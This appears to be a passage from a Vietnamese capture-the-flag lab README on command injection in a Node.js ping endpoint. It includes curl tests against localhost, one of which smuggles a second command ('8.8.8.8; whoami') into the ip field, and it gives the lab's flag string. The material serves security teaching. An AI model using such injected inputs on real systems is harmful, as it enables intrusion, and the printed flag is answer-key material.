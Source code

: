 ```javascript
// Server sẽ log command
console.log("Command thực thi:", cmd);
```

### Test với curl

```bash
curl -X POST http://localhost:3000/api/ping \
  -H "Content-Type: application/json" \
  -d '{"ip":"8.8.8.8"}'

curl -X POST http://localhost:3000/api/ping \
  -H "Content-Type: application/json" \
  -d '{"ip":"8.8.8.8; whoami"}'
```

### Browser DevTools

-   Network tab để xem requests
-   Console để debug JavaScript
-   Response để xem command output

## 🚩 FLAG

```
FLAG{C0mm4nd_1nj3ct10n_M4st3r_2024}
```

## 📚 Tài Liệu Tham Khảo

-   [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
-   [Node.js Child Process](https://nodejs.org/api/child_process.html)
-   [Linux Command Injection](https://owasp.org/www-community/attacks/Command_Injection)

---

**Độ khó**: Cơ bản - Trung bình  
**Thời gian**: 15-30 phút  
**Yêu cầu**: Kiến thức cơ bản về Linux commands
